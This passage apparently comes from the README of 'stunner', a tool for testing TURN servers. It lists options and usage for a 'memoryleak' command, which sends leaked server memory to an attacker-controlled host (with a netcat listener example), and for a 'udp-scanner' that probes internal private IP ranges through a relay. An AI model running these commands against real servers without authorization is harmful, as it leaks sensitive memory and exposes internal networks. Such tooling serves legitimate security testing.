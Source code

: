 ### Options

```text
--debug, -d                   enable debug output (default: false)
--turnserver value, -s value  turn server to connect to in the format host:port
--tls                         Use TLS for connecting (false in most tests) (default: false)
--protocol value              protocol to use when connecting to the TURN server. Supported values: tcp and udp (default: "udp")
--timeout value               connect timeout to turn server (default: 1s)
--username value, -u value    username for the turn server
--password value, -p value    password for the turn server
--target value, -t value      Target to leak memory to in the form host:port. Should be a public server under your control
--size value                  Size of the buffer to leak (default: 35510)
--help, -h                    show help (default: false)
```

### Example

To receive the data we need to set up a receiver on a server with a public ip. Normally firewalls are configured to only allow highports (>1024) from TURN servers so be sure to use a high port like 8080 in this example when connecting out to the internet.


```bash
sudo nc -u -l -n -v -p 8080 | hexdump -C
```

then execute the following statement on your machine adding the public ip to the `t` parameter

```bash
./stunner memoryleak -s x.x.x.x:3478 -t y.y.y.y:8080 -u username -p password
```

If it works you should see big loads of memory coming in, otherwise you will only see short messages.

## udp-scanner

If a TURN server allows UDP connections to targets this scanner can be used to scan all private ip ranges and send them SNMP and DNS requests. As this checks a lot of IPs this can take multiple days to complete so use with caution or specify smaller targets via the parameters. You need to supply a SNMP community string that will be tried and a domain name that will be resolved on each IP. For the domain name you can for example use burp collaborator.

### Options

```text
--debug, -d                   enable debug output (default: false)
--turnserver value, -s value  turn server to connect to in the format host:port
--tls                         Use TLS for connecting (false in most tests) (default: false)
--protocol value              protocol to use when connecting to the TURN server. Supported values: tcp and udp (default: "udp")
--timeout value               connect timeout to turn server (default: 1s)
--username value, -u value    username for the turn server
--password value, -p value    password for the turn server
--community-string value      SNMP community string to use for scanning (default: "public")
--domain value                domain name to resolve on internal DNS servers during scanning
--ip value                    Scan single IP instead of whole private range. If left empty all private ranges are scanned. Accepts single IPs or CIDR format.  (accepts multiple inputs)
--help, -h                    show help (default: false)
```
